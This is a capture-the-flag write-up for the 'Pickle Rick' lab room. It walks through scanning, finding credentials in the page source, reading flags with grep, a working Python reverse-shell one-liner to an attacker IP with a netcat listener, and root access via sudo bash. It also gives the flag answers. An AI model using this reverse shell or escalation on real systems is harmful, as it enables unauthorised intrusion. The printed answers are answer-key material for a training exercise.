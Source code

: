 # Notes for Pickle Rick room. Following along with https://www.youtube.com/watch?v=oCAtfcr3iUw&t=147s


## Tasks

### 1. What is the first ingredient Rick needs?


Running a nmap scan on the ip: 10.10.98.103

```
nmap -sC -sV -oN nmap/initial 10.10.98.103
```

Port 80 is open so there is a wen/application running. 

Doing a nikto scan to see if there is any hidden folders

```
nikto -host http://10.10.98.103 | tee nikto.log
```

By opening the web application in the browser and view page source you will this:

```
  <!--

    Note to self, remember username!

    Username: R1ckRul3s

  -->
```

Trying now gobuster with extensions and wordlist:

```
gobuster dir -u http://10.10.98.103 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,sh,txt,cgi,html,js,css,py
```

By using nikto or gobuster we can see a login page: `/login.php` and `robots.txt`.

On `robots.txt` we get:

```
Wubbalubbadubdub
```

So trying the login with the information gained so far --> Success!

Viewing page source and there is this, maybe to be used??

```
 <!-- Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0== -->
```

In the execute prombt I try `ls` and get this:

```
Sup3rS3cretPickl3Ingred.txt
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt
```

The command `cat` is disabled. But `grep` is there, so using `grep` to match everything on the `Sup3rS3cretPickl3Ingred.txt`:

```
grep . Sup3rS3cretPickl3Ingred.txt
```

and we get:

```
mr. meeseek hair
```

### 2. Whats the second ingredient Rick needs?

So now we want a reverse shell and poking around we can see that python3 is available:

```
python3 -c "print('hello')"

Output: hello
```

Searching for python3 reverse shell on google, get you here: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python

Trying the first one

```
export RHOST="10.9.1.13";export RPORT=4242;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```
Remember to setup listner:

```
nc -lvnp 4242
```

And we are in!!

Going to `/home/rick/` and doing a `grep . -R` we get the second ingredient:

```
1 jerry tear
```
### 3. Whats the final ingredient Rick needs?

Apparently the user we reversed into have sudo commands, so by using the command `sudo bash` we are now owning the machine. :) 

Going to the root folder `cd` and checking the files we find the `3rd.txt` and the final ingredient is:

```
fleeb juice
```